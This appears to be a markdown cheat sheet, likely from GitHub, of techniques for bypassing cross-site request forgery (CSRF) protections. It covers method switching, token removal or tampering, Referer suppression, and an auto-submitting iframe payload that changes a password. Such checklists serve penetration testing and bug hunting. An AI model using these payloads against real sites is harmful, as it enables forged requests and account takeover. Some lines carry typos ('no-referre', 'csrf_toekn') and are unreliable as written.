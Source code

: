 ### 1. Change request method.
```
POST -> GET
GET -> POST
```

### 2. Use valid token of another ID

### 3. Replacing value of same length
```
csrf_token=m9ucsjdcsdhcush8vuhsdvs8dv (valid csrf token)
csrf_token=11111111111111111111111111 (or try gibrish)
```
### 4. Removing token/delete token parameter

### 5. Decoding token (i.e. md5, base64)

### 6. Use static part of token
```
csrf_toekn=staticRandom (valid)
csrf_token=static (bypass)
```

### 7. Clickjacking
```
Check if there any anti-clickjacking header or not.
```

### 8. Session fixation(double session)
```
Sometime webapp use same csrf token twice in same request and check both tokens
are same or not.
```

### 9. Bypassing Referrer header.
```
Many sites check referrer header. If so then csrf will work only localhost but 
not web server. 
Use meta tag name="referrer" content="no-referre" in html code.
<meta name="referrer" content="no-referre">
```

### 10. Remove X-CSRF-TOKEN
```
Change from POST to GET and remove X-CSRF-TOKEN
```
```
Every POST/PUT/PATCH request is protected by X-CSRF-TOKEN.

- Changed POST -> GET
- Remove X-CSRF-TOKEN
- Change CSRF token value "true" or "1"
- Change Content-Type to application/json;charset=UTF-8
```

### Origin Header Bypass
```
<iframe src='data:text/html,<body onload="document.forms[0].submit()"><form action="//example.com/api/auth?password=newpass" method="post"></body>'></iframe>
```
